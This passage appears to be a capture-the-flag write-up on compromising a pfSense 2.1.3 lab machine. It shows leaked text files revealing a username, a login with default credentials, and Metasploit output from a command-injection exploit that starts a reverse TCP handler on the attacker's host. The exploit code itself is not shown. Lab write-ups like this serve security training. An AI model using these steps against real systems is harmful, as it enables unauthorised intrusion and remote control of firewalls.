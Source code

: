 A lot of the files just redirect us to the login page. The two textfiles however discoles some really useful information.

https://10.10.10.60/changelog.txt

```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

https://10.10.10.60/system-users.txt

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

Great so we may have a valid username. Let's try it with the default password for PFSense I found earlier (rohit/pfsense). Bingo we are logged in.


## Initial Compromise

Now that we are authenticated, we could try the RCE exploits. We also see the exact version of PFsense that is installed "2.1.3-RELEASE (amd64)"

The exploit "pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection" seem like it could work for our version of the application. The vulnerabilites are well explained here: https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/.

There is a Metasploit module for this exploit but I encountered some problems trying to make it work. 

```
msf exploit(unix/http/pfsense_graph_injection_exec) > exploit 

[*] Started reverse TCP handler on 10.10.14.9:80 
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[!] This exploit may require manual cleanup of 'i' on the target
[*] Exploit completed, but no session was created.
```

So instead I ended up using the exploit reffered to in exploit-db (https://www.exploit-db.com/exploits/43560)
